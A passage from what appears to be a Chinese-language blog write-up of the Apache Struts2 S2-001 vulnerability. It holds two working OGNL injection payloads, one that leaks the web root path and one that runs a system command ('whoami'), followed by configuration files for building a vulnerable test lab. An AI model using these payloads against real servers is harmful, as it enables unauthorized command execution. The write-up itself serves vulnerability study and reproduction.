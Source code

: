 ![1]({{site.baseurl}}/img-post/k-5.png)
~~~
//获取web路径
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
~~~
![1]({{site.baseurl}}/img-post/k-6.png)
![1]({{site.baseurl}}/img-post/k-7.png)
~~~
//命令执行
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
~~~
![1]({{site.baseurl}}/img-post/k-8.png)
![1]({{site.baseurl}}/img-post/k-9.png)
### 漏洞分析
利用idea搭建，需要下载的jar包地址：http://archive.apache.org/dist/struts/binaries/struts-2.0.1-all.zip

导入完成后的结果
![1]({{site.baseurl}}/img-post/k-10.png)
struts.xml
~~~xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE struts PUBLIC
        "-//Apache Software Foundation//DTD Struts Configuration 2.0//EN"
        "http://struts.apache.org/dtds/struts-2.0.dtd">
<struts>
    <package name="S2-001" extends="struts-default">
        <action name="login" class="com.demo.action.LoginAction">
            <result name="success">welcome.jsp</result>
            <result name="error">index.jsp</result>
        </action>
    </package>
</struts>
~~~
web.xml
~~~xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns="http://xmlns.jcp.org/xml/ns/javaee" xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_3_1.xsd" id="WebApp_ID" version="3.1">
    <display-name>S2-001 Example</display-name>
    <filter>
        <filter-name>struts2</filter-name>
        <filter-class>org.apache.struts2.dispatcher.FilterDispatcher</filter-class>
    </filter>
    <filter-mapping>
        <filter-name>struts2</filter-name>
        <url-pattern>/*</url-pattern>
    </filter-mapping>
    <welcome-file-list>
        <welcome-file>index.jsp</welcome-file>
    </welcome-file-list>
</web-app>
~~~
index.jsp
~~~jsp
<%@ page language="java" contentType="text/html; charset=UTF-8"
~~~